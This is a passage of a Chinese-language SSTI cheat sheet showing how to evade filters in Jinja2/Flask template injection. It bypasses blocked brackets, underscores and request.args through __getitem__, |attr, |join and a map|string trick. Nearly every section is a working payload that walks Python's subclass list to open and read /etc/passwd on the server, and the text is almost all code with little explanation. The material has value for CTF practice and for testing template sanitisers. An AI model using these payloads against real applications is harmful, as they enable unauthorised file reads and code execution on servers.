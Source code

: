 ```python
'sy'.__add__('stem')
```

用其他可控变量代替

## ② 中括号被过滤

利用该特性a\[2]== a.\_\_getitem__(2)
```python
{ { ().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(40)('/etc/passwd').read()} }
```

## ③ 下划线过滤
**使用"request.args" 或者 "request.values"**
```python
?name={ { [][request.args.class][request.args.base][request.args.sub]()[40]('/etc/passwd').read()} }&class=__class__&base=__base__&sub=__subclasses__
```
![YI1Af0.png](https://s1.ax1x.com/2020/05/19/YI1Af0.png)

**args values 被过滤？？**
```python
{ { request.headers['X-Forwarded-For']} }
```
![Yo6Wwj.png](https://s1.ax1x.com/2020/05/20/Yo6Wwj.png)

更简单的如`request.content_md5`,`request.content_encoding`,`request.referrer` 等其他

**畸形方法获取_**
```python
[[]|map|string|list][0][20]
```
[![YoDrKH.png](https://s1.ax1x.com/2020/05/20/YoDrKH.png)](https://imgchr.com/i/YoDrKH)


先将
```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```
转化成如下
```python
{ { [[]|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][40]('/etc/passwd')|attr('read')()} }
```
再利用join特性将_分离([1,2,3]|join 结果为123)
```python
{ { [[]|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][40]('/etc/passwd')|attr('read')()} }
```
最后_替换[[]|map|string|list][0][20]
```python
{ { [[]|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40]('/etc/passwd')|attr('read')()} }
```
![Yor8W8.png](https://s1.ax1x.com/2020/05/20/Yor8W8.png)

